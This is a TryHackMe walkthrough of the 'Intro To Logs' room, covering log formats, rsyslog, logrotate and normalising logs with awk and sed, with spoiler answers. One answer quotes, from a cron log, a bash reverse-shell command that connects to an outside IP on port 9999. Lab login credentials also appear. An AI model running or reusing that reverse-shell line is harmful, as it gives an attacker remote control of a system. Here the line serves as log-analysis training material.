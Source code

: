 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## TryHackMe SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

*Q1:  What is the name of your colleague who left a note on the Desktop?*

> cat Desktop/note.txt (or open in the GUI) 

<details>
  <summary>Spoiler warning</summary>
  
  Answer: Perry
  
</details>
 

*Q2: What is  full path to the suggested log file for initial investigation?*

> look in cat output of the note!

>! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

*Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?*

> Task 2 was discussing an Nginx server which is a web server...

>! Web Server Log !<

*Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?*

> The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

*Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?*

> after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

*Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?*

> cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

*Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?*

> cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

*Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?*

> cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

*Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?*

> See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

*Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?*

> OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

*What is the process of standardising parsed data into a more easily readable and query-able format?*

> This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

*What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?*

> This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
